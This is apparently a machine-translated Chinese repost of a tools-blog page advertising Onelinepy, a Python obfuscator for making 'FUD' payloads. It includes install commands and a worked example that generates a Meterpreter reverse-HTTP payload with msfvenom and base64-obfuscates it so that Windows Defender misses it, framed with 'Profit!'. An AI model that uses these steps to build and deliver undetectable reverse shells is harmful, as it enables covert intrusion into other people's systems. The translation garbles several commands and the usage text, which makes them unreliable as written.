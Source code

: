 # Onelinepy : Python Obfuscator，用于生成一行程序和 FUD 负载

> 原文：<https://kalilinuxtutorials.com/onelinepy/>

[![Onelinepy : Python Obfuscator To Generate One-Liners And FUD Payloads](img/43135505402e2771bcdb908559ecef83.png "Onelinepy : Python Obfuscator To Generate One-Liners And FUD Payloads")](https://1.bp.blogspot.com/-6QVrtjWP0SE/YMRyoR_urnI/AAAAAAAAJdU/JXcLWCApd2QQoCimt25IAOJLIJSpeMrjgCLcBGAsYHQ/s1403/oneline%2B%25281%2529.png)

Onelinepy 是一个 Python 混淆器，用于生成一行程序和 FUD 负载。

**下载&运行**

**git 克隆 https://github.com/spicesouls/onelinepy
CD oneline py
chmod+x setup . sh
。/setup.sh
onelinepy**

**使用指南**

**_*|*|*|*_ _
|。| |–*| | |–*|。| | | Python
| |*| | |*|*|*|*|*|*| | | Obfustucator | _ | |*|
用法:oneline . py[-h][-M M][-I I][–SCRIPT SCRIPT][–CODE CODE][–list][–OUTPUT]
可选参数:
-h，–help 显示此帮助消息并退出
–将 Python 文件的脚本文件路径写到 Obfustucate。
–CODE CODE Python CODE to Obfustucate。
–列出各种方法。
–输出输出输出文件。**

##### **示例:创建 FUD Meterpreter Python 有效负载**

*   生成 Python 有效负载:

`**msfvenom --payload python/meterpreter_reverse_http LHOST=... LPORT=... > payload.txt**`

*   倒刺有效载荷

`**onelinepy -m /one_line/base64 --script payload.txt -i 3 --output obfustucated_payload.txt**`

*   利润！Obfustucated 有效负载对 Windows Defender 起作用。

**更多例子**

**oneline py-m/one _ line/base64–脚本有效载荷. py -i 3**

**oneline py-m/one _ line/HEX–code " print(' HEX！')"**

**Obfustucation 方法列表**

**_*|*|*|*_ _
|。| |–*| | |–*|。| | | Python
| |*| | |*|*|*|*|*|*| | | Obfustucator | _ |*|
Obfustucator(* =可能导致语法错误)
-= = = = = = = = = = = = =-
0/one _ line/hex
1/one _ line/base 64
2/one _ line/base 32**

[**Download**](https://github.com/spicesouls/onelinepy)